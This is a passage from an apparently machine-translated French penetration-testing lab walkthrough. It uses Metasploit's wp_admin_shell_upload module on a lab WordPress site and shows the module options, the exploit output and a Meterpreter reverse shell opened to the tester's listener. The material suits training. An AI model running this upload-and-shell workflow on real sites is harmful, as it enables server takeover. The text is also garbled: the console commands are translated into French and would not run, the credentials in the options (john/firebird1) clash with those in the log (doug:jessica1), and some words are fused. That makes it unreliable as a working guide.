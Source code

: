 Nous pouvons ensuite émettre la commande `show options` pour nous assurer que tout est correctement configuré. Dans cet exemple de laboratoire, nous devons spécifier à la fois le vhost et l'adresse IP, ouL'exploit échouera avec l'erreur `Exploit abandonné en raison d'un échec : introuvable : la cible ne semble pas utiliser WordPress`.

```
exploit msf6 (unix/webapp/wp_admin_shell_upload) > afficher les options

Options du module (exploit/unix/webapp/wp_admin_shell_upload) :

    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    PASSWORD firebird1 oui Le mot de passe WordPress avec lequel s'authentifier
    Proxies non Une chaîne de proxy au format type:host:port[,type:host:port][...]
    RHOSTS 10.129.42.195 oui Le ou les hôtes cibles, l'identifiant CIDR de la plage ou le fichier d'hôtes avec la syntaxe 'file:<path>'
    RPORT 80 oui Le port cible (TCP)
    SSL false non Négocier SSL/TLS pour les connexions sortantes
    TARGETURI / oui Le chemin de base vers l'application wordpress
    USERNAME john oui Le nom d'utilisateur WordPress avec lequel s'authentifier
    VHOST blog.inlanefreight.local non Hôte virtuel du serveur HTTP

Options de charge utile (php/meterpreter/reverse_tcp) :

    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    LHOST 10.10.14.15 oui L'adresse d'écoute (une interface peut être spécifiée)
    LPORT 4444 oui Le port d'écoute

Cible d'exploitation :

    Nom d'identification
    -- ----
    0 Wordpress

```

Une fois que nous sommes satisfaits de la configuration, nous pouvons taper `exploit` et obtenir un reverse shell. À partir de là, nous pourrions commencer à énumérer l'hôte pour les données sensibles ou les chemins pour l'escalade verticale/horizontale des privilèges et le mouvement latéral.

```
exploit msf6 (unix/webapp/wp_admin_shell_upload) > exploit

[*] Démarrage du gestionnaire TCP inversé le 10.10.14.15:4444
[*] Authentification avec WordPress en utilisant doug:jessica1...
[+] Authentifié avec WordPress
[*] Préparation de la charge utile...
[*] Téléchargement de la charge utile...
[*] Exécution de la charge utile sur /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Étape d'envoi (39264 octets) vers 10.129.42.195
[*] Session Meterpreter 1 ouverte (10.10.14.15:4444 -> 10.129.42.195:42816) au 2021-09-20 19:43:46 -0400
i[+] Supprimé wCoUuUPfIO.php
[+] Supprimé CczIptSXlr.php
[+] Supprimé ../CczIptSXlr

meterpreter > getuid

Nom d'utilisateur du serveur : www-data (33)

```
